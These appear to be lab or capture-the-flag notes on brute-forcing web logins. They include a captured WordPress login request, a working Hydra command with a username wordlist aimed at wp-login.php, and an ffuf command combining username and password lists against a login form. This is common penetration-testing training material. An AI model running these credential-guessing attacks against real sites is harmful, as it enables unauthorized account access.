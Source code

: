 ## Bruteforce Login Hydra

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
```
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & `^PASS^` are used as placeholder. 
`"F=Invalid username"` is the string for the error message.

## Bruteforce Login ffuf

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/
10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H 
"Content-Type: application/x-www-form-urlencoded" -u http://10.10.102.18/customers/login -fc 200
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~